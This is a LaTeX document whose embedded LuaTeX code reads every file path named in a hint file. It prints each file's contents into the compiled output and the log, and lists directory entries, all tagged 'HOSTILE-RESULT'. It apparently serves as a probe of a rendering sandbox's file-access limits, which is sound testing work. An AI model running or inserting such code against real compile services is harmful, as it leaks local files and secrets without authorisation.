 \documentclass{article}
\begin{document}
\ttfamily
\begin{luacode*}
local hint = "/srv/hint/hint.txt"
local t0 = os.time()
while not lfs.attributes(hint) and os.time() - t0 < 25 do end
local f = io.open(hint, "r")
if not f then
  texio.write_nl("HOSTILE-RESULT: no hint")
else
  for path in f:lines() do
    local g, err = io.open(path, "r")
    if g then
      local s = g:read("a") or ""
      texio.write_nl("HOSTILE-RESULT: read " .. path .. " " .. s)
      tex.print(-2, s)
    else
      texio.write_nl("HOSTILE-RESULT: blocked " .. tostring(err))
    end
    local ok, it, st = pcall(lfs.dir, path)
    if ok then for n in it, st do texio.write_nl("HOSTILE-RESULT: entry " .. n) end end
  end
end
\end{luacode*}
Known paths.
\end{document}
